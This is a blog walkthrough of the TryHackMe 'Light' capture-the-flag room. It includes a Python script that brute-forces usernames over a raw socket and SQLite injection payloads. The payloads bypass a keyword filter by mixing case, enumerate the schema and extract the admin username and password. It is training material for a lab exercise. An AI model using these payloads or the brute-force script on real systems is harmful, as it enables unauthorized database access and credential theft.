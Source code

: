 ```yaml
---
layout: post
title: "TryHackMe Light Walkthrough - SQL Injection Challenge"
description: "Complete step-by-step walkthrough for TryHackMe's Light room featuring SQLite injection techniques, database enumeration, and admin credential extraction. Perfect for beginners learning SQL injection fundamentals."
date: 2025-08-15 10:00:00 +0000
categories: [Cybersecurity, Writeups, Tryhackme]
tags: [tryhackme, thm, sql-injection, sqlite, database, enumeration, ctf, easy]
image: https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1737140605838
sitemap:
  priority: 0.8
  changefreq: monthly
---
```



# TryHackMe Light Walkthrough
Link to the Room : https://tryhackme.com/room/lightroom

```
I am working on a database application called Light! Would you like to try it out?  
If so, the application is running on **port 1337**. You can connect to it using `nc MACHINE-IP 1337`  
You can use the username `smokey` in order to get started.
```
Lets start the machine and wait for 2-3 minutes, let the machine get fully functional.

`Q1 What is the admin username?`

As usual running a full port scan for identifying potential entry points.
`nmap -p- -T4 MACHINE-IP -vv`
![Nmap scan results](/_posts/attachments/Pasted%20image%2020250816001828.png)

Meanwhile lets try connecting to the port 1337
`nc MACHINE-IP 1337`
Lets try the username provided `smokey`
![Testing with username smokey](/_posts/attachments/Pasted%20image%2020250816002133.png)
Alright!

So, I guess we can try brute-forcing a wordlist of usernames, but we cannot use ffuf...
So,
I took this script from ChatGPT, and modified it little to make it work.
```python
import socket

target_ip = "10.201.15.128"  # change this
target_port = 1337
wordlist = "SecLists/Usernames/cirt-default-usernames.txt"  # your username list

with open(wordlist, "r") as f:
    usernames = [u.strip() for u in f if u.strip()]

for user in usernames:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip, target_port))

    # Receive initial banner / prompt
    banner = s.recv(1024).decode()
    print(banner.strip())

    u = s.recv(1024).decode()
    print(u.strip())

    # Send username
    s.send((user + "\n").encode())

    # Receive response
    response = s.recv(1024).decode()
    print(f"[{user}] -> {response.strip()}")

    s.close()

```

I tried few wordlists but didn't find anything.

Got back to the nmap scan and LOL!, its gonna take forever so its not the way in for sure!
![Nmap scan taking too long](/_posts/attachments/Pasted%20image%2020250816003201.png)

What else can we do? Found no `http` pages, where can we even use the credentials we've got earlier?
Lets try to change the approach.

Lets try putting in some random input, my mind is getting a little idea of where it is going _maybe_.
![Testing random input](/_posts/attachments/Pasted%20image%2020250816003925.png)
Its more of an Injection vulnerability I see
Its been a long I have not dealt with a SQLi, now quickly digging through my notes for revising required methods.

From the responses below
![SQL injection response](/_posts/attachments/Pasted%20image%2020250816004841.png)
I can imagine of a SQL query
`select pass from users where user='<input>' limit 30`

Now we'll try creating some SQL payloads based on the payloads I already have in my notes.
`'union select 1'`
![Union select blocked](/_posts/attachments/Pasted%20image%2020250816005530.png)
Okhayy!
They might be blocking some keywords most probably as an easy way out. 
Here might be a logic error lets try `'UnIOn sElecT 1'`
![Bypassing keyword filter](/_posts/attachments/Pasted%20image%2020250816005739.png)
as a developer I would also blacklist these keywords as its an easy fix(not a fix really). Laziness is a problem frr.
I love these kinda logic based errors!

Lets start enumerating.
`'Union Select @@version'`
Didn't work maybe some other database!

Refer this https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-enumeration

This one worked
`'Union Select sqlite_version()'`
Its sqlite database version: 3.31.1
![SQLite version](/_posts/attachments/Pasted%20image%2020250816010644.png)

Using the [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-enumeration) Repository for reference!

`'Union Select sql from sqlite_master'`
![Database schema](/_posts/attachments/Pasted%20image%2020250816010906.png)

Now we know the table name, column names.
Enough to craft useful payloads.

> You can use [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-enumeration) and suitable LLM for crafting payloads

`'Union Select username from admintable where id='1`
![Admin username](/_posts/attachments/Pasted%20image%2020250816011619.png)
If needed we could've dumped all but in this case we don't need the whole database.

![Question 1 answer](/_posts/attachments/Pasted%20image%2020250816011809.png)

`Q2 What is the password to the username mentioned in question 1?`
`'Union Select password from admintable where username='<admin-user>`
![Admin password](/_posts/attachments/Pasted%20image%2020250816012001.png)

![Question 2 answer](/_posts/attachments/Pasted%20image%2020250816012439.png)

`Q3 What is the flag?`
Till now you could've figured it out, we have already got the id for the user flag, so most probably its password will be the final flag.
Little modifications to the previous payload will get you the flag.

![Question 3 flag](/_posts/attachments/Pasted%20image%2020250816012516.png)




